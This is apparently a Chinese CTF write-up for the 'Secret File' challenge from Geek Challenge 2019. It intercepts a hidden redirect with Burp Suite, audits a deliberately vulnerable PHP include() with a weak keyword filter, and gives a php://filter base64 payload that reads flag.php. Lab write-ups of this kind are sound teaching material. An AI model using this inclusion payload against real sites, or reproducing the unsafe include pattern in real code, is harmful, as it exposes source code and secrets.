 # [极客大挑战 2019]Secret File 1

- 进入页面，没有有效信息，直接查看原码，发现了Archive_room.php

> <img src="../../IMG2/Screenshot 2024-05-20 185454.png">

- 进入Archive_room.php，有一个secret按钮，点击后跳转到end.php，仔细观察，可以发现是先跳转到action.php，再重定向到end.php，使用burpsuite抓包，发送到然后点击secret按钮，发送到repeater并发送请求，在响应中得到secr3t.php

> <img src="../../IMG2/Screenshot 2024-05-20 185811.png">

- 访问secr3t.php，开始代码审计

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

- 这串代码很简单，就仅仅是将几个文件包含的关键字进行了过滤，但是文件包含这么多伪协议，随便用一个就行了，故payload如下

`?file=php://filter/convert.base64-encode/resource=flag.php`

- 得到flag.phpd原码的base64，进行解码得到flag

> <img src="../../IMG2/Screenshot 2024-05-20 190626.png">